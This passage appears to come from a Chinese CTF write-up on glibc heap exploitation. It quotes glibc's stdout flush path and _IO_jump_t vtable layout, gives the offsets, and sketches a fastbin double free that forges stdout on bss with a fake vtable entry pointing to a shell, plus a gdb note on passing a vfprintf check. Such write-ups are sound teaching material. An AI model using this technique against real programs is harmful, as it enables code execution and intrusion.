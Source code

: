 ```c
        result = -1;
    }
#else
  if ((to_flush = hp->_IO_write_ptr - hp->_IO_write_base) > 0)
    {
      if ((int) _IO_sputn (s, hp->_IO_write_base, to_flush) != to_flush)
        result = -1;
    }
#endif
```
通过_IO_sputn输出
```c
#define _IO_sputn(__fp, __s, __n) _IO_XSPUTN (__fp, __s, __n)
```
调用的是jump table 的_IO_XSPUTN
也就是_IO_jump_t的第8个域
```c
struct _IO_jump_t
{
    JUMP_FIELD(size_t, __dummy);
    JUMP_FIELD(size_t, __dummy2);
    JUMP_FIELD(_IO_finish_t, __finish);
    JUMP_FIELD(_IO_overflow_t, __overflow);
    JUMP_FIELD(_IO_underflow_t, __underflow);
    JUMP_FIELD(_IO_underflow_t, __uflow);
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    /* showmany */
    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    ...
```
# 思路
这里我们先算出几个重要的偏移(做多了一般就会记住了)
```python
off1=0xd8#vtable‘s off 也就是n132>>> p sizeof(_IO_FILE)
off2=8*8#_IO_xsputn_t
```

然后整理一下思路
* 我们可以通过double free做fastbin atk控制bss
* 控制的地址比较高做不了hijacking但是可以控制bss上的stdout恰好有个printf在输入cmd的时候
* stdout改到bss上
* vtavle可以用我们malloc的chunk来伪造 
* 中间还需要做一些事情让我们顺利执行buffered_vfprintf的输出部分

address of fake_stdout: &ponit_of_chunk_vtable-0xd8
chunk_vtable: '\x00'*56+p64(sh)

这里记录几个容易有问题的地方:
I.
```arm
   0x7ffff7a7f8db <vfprintf+27>    mov    eax, dword ptr fs:[rax]
   0x7ffff7a7f8de <vfprintf+30>    mov    dword ptr [rbp - 0x4a4], eax
   0x7ffff7a7f8e4 <vfprintf+36>    mov    eax, dword ptr [rdi + 0xc0]
 ► 0x7ffff7a7f8ea <vfprintf+42>    test   eax, eax
   0x7ffff7a7f8ec <vfprintf+44>    jne    vfprintf+288 <0x7ffff7a7f9e0>
```
vfprintf的第一个check...这个要是过不了直接没啥好玩的了..注意置0就可以了
